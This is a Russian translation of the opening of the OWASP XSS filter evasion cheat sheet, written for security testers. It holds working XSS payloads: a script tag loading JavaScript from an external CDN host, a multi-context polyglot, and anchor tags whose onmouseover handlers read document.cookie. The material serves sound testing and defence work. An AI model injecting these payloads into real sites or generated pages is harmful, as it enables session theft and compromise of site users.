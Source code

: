 # Шпаргалка для обхода фильтров XSS

## Вступление

Эта статья представляет собой руководство по межсайтовому скриптовому тестированию (XSS) для специалистов по безопасности приложений. Эта шпаргалка изначально была основана на оригинальной XSS-шпаргалке Snake, опубликованной ранее на: `http://ha.ckers.org/xss.html`. Теперь серия OWASP Cheat Sheet предоставляет пользователям обновленную и поддерживаемую версию документа. Самая первая OWASP Cheat Sheet, [Предотвращение межсайтового скриптинга](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), была вдохновлена работой RSnake, и мы благодарим RSnake за вдохновение!

## Тесты

Эта шпаргалка демонстрирует, что фильтрация входных данных является неполной защитой для XSS, предоставляя тестировщикам серию XSS-атак, которые могут обойти определенные защитные фильтры XSS.

### Базовый тест XSS без обхода фильтра

Эта атака, использующая обычную XSS-инъекцию JavaScript, служит основой для шпаргалки (кавычки не требуются ни в одном современном браузере, поэтому здесь они опущены).:

```html
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
```

### Локатор XSS (полиглот)

Этот тест предоставляет "пейлоад XSS для полиглотского теста", которая выполняется в нескольких контекстах, включая HTML, строки скриптов, JavaScript и URL-адреса:

```js
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

(Основано на [tweet](https://twitter.com/garethheyes/status/997466212190781445) от [Gareth Heyes](https://twitter.com/garethheyes)).

### Неправильные "а" тэги

В этом тесте не используется атрибут `[href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href)` , чтобы продемонстрировать атаку XSS с использованием обработчиков событий:

```js
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

Chrome автоматически вставит для вас пропущенные кавычки. Если у вас возникнут проблемы, попробуйте их опустить, и Chrome сам правильно расставит недостающие кавычки в URL-адресах или скриптах.:

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```
